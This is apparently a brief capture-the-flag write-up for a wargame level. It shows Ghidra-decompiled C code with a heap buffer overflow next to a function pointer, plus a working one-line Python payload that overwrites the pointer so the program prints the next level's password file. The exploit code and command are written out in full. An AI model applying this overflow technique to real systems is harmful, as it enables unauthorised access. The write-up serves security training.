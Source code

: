 get the binary on host
* `scp -P 4242 level6@192.168.56.107:./level6 ./binary/level6`

decompile using ghidras
```c
            void main(undefined4 param_1,int param_2)
            {
                undefined4 uVar1;
                code **ppcVar2;
                
                uVar1 = malloc(64);
                ppcVar2 = (code **)malloc(4);
                *ppcVar2 = m;
                strcpy(uVar1,*(undefined4 *)(param_2 + 4));
                (**ppcVar2)();
                return;
            }
            void m()
            {
                put("Nope");
            }
/*08048454*/void n(void)
            {
                 system("/bin/cat /home/user/level7/.pass");
                return;
            }
```
Like before buffer overlof to jump to other function:\
`./level6 $(python -c 'print "a" * 72 + "\x54\x84\x04\x08"')` 